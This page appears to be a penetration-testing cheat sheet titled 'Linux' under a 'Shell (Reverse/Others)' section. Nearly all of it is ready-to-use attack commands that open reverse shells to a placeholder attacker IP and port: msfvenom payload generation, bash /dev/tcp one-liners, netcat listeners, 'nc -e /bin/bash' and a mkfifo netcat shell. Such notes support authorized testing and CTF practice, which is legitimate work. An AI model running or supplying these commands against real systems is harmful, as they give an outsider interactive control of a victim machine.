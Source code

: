 ```yaml
---
title: Linux
parent: Shell (Reverse/Others)
layout: default
nav_order: 2
---
```


Most common: 
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell1.elf`

Simple bash:\
`bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"`

OR

`bash -i >& /dev/tcp/ip/port 0>&1`

Netcat listener (remove rlwrap if cannot use):\
`rlwrap nc -nvlp 8007`

MSFVenom to generate (can change cmd/unix to linux/x64):\
`msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'`\
Use it with:\
`msfvenom -p cmd/xxx LHOST=IP LPORT=yyy -f elf > shell.elf`\
(Remember `chmod +x`)

Simple netcat listener:
`nc -nvlp 4444`

Victim:
`nc -e /bin/bash IP 4444`

`mkfifo /tmp/bzxltd; nc IP PORT 0</tmp/bzxltd | /bin/sh >/tmp/bzxltd 2>&1; rm /tmp/bzxltd`